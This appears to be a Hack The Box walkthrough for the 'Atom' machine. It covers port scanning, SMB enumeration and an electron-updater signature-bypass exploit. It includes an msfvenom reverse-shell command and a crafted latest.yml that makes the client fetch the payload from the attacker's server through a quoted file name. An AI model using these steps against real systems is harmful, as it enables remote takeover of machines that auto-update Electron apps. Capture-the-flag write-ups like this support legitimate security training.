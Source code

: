 ```yaml
---
title: "[HTB] Atom - Walkthrough"
layout: post
tags: HTB
---
```


Found these ports :
Host: 10.10.10.237 

* 80 / open / tcp /  / http /  / Apache httpd 2.4.46 ((Win64) OpenSSL|1.1.1j PHP|7.3.27) / 
* 135 / open / tcp /  / msrpc /  / Microsoft Windows RPC / 
* 443 / open / tcp /  / ssl|http /  / Apache httpd 2.4.46 ((Win64) OpenSSL|1.1.1j PHP|7.3.27) / , 
* 445 / open / tcp /  / microsoft-ds /  / Windows 10 Pro 
* 19042 microsoft-ds (workgroup: WORKGROUP) / 
* 5985 / open / tcp /  / http /  / Microsoft HTTPAPI httpd 2.0 (SSDP|UPnP) 
* 6379 / open / tcp /  / redis /  / Redis key-value store

Port 445 is SMB, we connect using `smbclient`
`smbclient -L \\\\10.10.10.237\\`
We have a list of services :
![Pasted image 20210706175629.png|500](/assets/Pasted%20image%2020210706175629.png%7C500)
We connect to the service `Software_Updates`, we find directories and a pdf, we download the PDF. "UAT_Testing_Procedures.pdf"


We see that they are using electron-builder to build their apps. We google about it, and we find this [blogpost](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html) which explains the vulnerability.

We have to provide a `latest.yml` to trigger the update, and use a malicious file with a quote `'` in the filename to bypass signature validation.

We compile a reverse shell using msfvenom, this will be our malicious update.
`msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > r\'evshell.exe`
And our `latest.yml`

```yml
version: 1.1.2
files:
  url: http://10.10.15.1/r'evshell.exe
  sha512: jnn1I3GMG4YfeWQqC6iHz+LJRUBVZS/3C9pc++s1b8i0cS8lM+Dp14h4G33/sh62VelWi5y7aCyphkXDR+XnHg==

path: http://10.10.15.1/r'evshell.exe
sha512: jnn1I3GMG4YfeWQqC6iHz+LJRUBVZS/3C9pc++s1b8i0cS8lM+Dp14h4G33/sh62VelWi5y7aCyphkXDR+XnHg==
```

We upload the file to the client folder with our SMB access, setup a netcat listener, HTTP server with Python and wait a while for the update to trigger.

We get a shell, and we are user `jason` got to Desktop to get user flag.